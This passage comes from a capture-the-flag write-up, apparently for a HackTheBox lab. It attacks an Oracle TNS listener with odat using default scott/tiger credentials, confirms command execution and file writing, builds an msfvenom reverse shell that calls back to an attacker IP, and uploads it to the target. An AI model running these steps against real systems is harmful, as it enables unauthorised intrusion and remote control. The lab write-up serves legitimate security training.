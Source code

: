 Lastly, we will move on to test on the externaltable library. From the output, the externaltable library is able to carry out an RCE attack as it can execute system commands. On top of thet, it is also able to read files on the system.

```
┌──(kali㉿kali)-[~]
└─$ sudo odat externaltable -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --test-module

[1] (10.10.10.82:1521): Test if the External Table module can be used
[1.1] External table to read files ?
[+] OK
[1.2] External table to execute system commands ?
[+] OK
```

However, being able to read files alone is insufficient to create a reverse shell from the Oracle TNS Listener. We would still need permissions to be able to write files. For that, the externaltable library is unable to do so. 

We will then test for the permissions to write files using the utlfile library. Fortunately, the utlfile library can be used to write files.

```
┌──(kali㉿kali)-[~]
└─$ sudo odat utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --test-module                      2 ⨯

[1] (10.10.10.82:1521): Test if the UTL_FILE library can be used
[1.1] UTL_FILE library ?
[+] OK
```

Next, we will generate our reverse shell payload using msfvenom

```
┌──(kali㉿kali)-[~/Desktop/silo]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.4 LPORT=4000 -f exe -o shell.exe                   
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Afterwards, we will use the utlfile module to write the shell.exe onto the C:/Windows/temp directory on our server.

```
┌──(kali㉿kali)-[~/Desktop/silo]
└─$ sudo odat utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile c:/windows/temp shell.exe `pwd`/shell.exe               

[1] (10.10.10.82:1521): Put the /home/kali/Desktop/silo/shell.exe local file in the c:/windows/temp folder like shell.exe on the 10.10.10.82 server
[+] The /home/kali/Desktop/silo/shell.exe file was created on the c:/windows/temp directory on the 10.10.10.82 server like the shell.exe file
```
